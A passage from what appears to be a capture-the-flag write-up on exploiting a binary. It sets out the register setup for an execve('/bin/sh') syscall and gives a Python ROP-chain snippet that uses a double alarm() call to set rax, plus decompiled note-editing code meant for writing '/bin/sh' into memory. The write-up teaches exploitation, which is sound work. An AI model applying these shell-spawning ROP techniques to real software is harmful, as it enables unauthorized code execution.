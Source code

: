 ## Exploitation

Seeing what we have when we return into our ropchain from `copymem`, it looks pretty good. For `execve`, we need:

 - rax == 0x3b
 - \[rdi\] == "/bin/sh"
 - \[rsi\] == 0
 - \[rdx\] == 0

Thankfully, rsi and rdx already point to nulls. This means we need to find a way to control rax and rdi. 

### rax

I couldnt find any suitable gadgets in the binary for rax, so I got a bit exotic. If we look at the man page for `alarm`, we can see:

```
       **alarm**() returns the number of seconds remaining until any
       previously scheduled alarm was due to be delivered, or zero if
       there was no previously scheduled alarm.
```

We know that alarm can specify how long until `SIGALRM` is raised. So what if we did something like:

1. Call `alarm(0x3b)` to set the the countdown to `SIGALRM` to 0x3b seconds.
2. Call alarm again, this time 0x3b will be returned in rax exactly where it needs to be for our syscall.

This is the method I used for controlling rax in my ropchain:
```python
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
```

### rdi

This is more obvious - I wanna find a way to write "/bin/sh" into the bss so i can reference it in my ropchain. Thankfully I can use some of the note editing functionality i skipped over earlier to achieve this:

```c
__int64 __fastcall edit_id_show(__int64 shmem)
{
  syscall(1LL, 1LL, "Enter Note ID: ", 15LL);
  read(shmem, 8LL);
  syscall(1LL, 1LL, "Note Name: ", 11LL);
  syscall(1LL, 1LL, shmem + 8, 16LL);
  syscall(1LL, 1LL, "Note Content: ", 14LL);
  return syscall(1LL, 1LL, shmem + 1054, *(unsigned int *)(shmem + 24));
}
```

